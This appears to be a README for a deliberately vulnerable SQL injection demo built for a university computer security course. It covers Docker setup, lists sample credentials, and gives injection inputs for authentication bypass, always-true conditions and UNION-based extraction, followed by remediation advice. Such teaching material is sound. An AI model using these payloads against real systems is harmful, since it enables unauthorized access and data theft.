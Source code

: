 # SQL Injection Demo

This project demonstrates SQL injection vulnerabilities for educational purposes (CSC435 - Computer Security homework).

## Setup

1. Make sure you have Docker and Docker Compose installed
2. Clone this repository
3. Run `docker-compose up --build`
4. Access the web application at <http://localhost:8080>

## Sample Users

The following users are pre-configured in the database:

| Username | Password    |
|----------|-------------|
| johnd    | password123 |
| janes    | smith2022   |
| admin    | admin123    |
| bobj     | support2023 |

## Demonstrating SQL Injection

This application is intentionally vulnerable to SQL injection. Here are some example attacks:

1. Bypass authentication:
   - Username: `admin' -- ` (note the space after --)
   - Password: `anything`
   
   Alternative method:
   - Username: `admin'#`
   - Password: `anything`

2. Display all users:
   - Username: `' OR '1'='1`
   - Password: `' OR '1'='1`

3. Extract data from other tables:
   - Username: `' UNION SELECT 1,2,3,4,5 -- ` (note the space after --)
   - Password: `anything`
   
   Alternative method:
   - Username: `' UNION SELECT 1,2,3,4,5#`
   - Password: `anything`

## Creating a Safe Version

To create a secure version of this application, you would need to:

1. Use parameterized queries or prepared statements instead of string concatenation
2. Implement proper input validation
3. Follow the principle of least privilege for database access

A secure branch will be created in this repository with these improvements implemented.
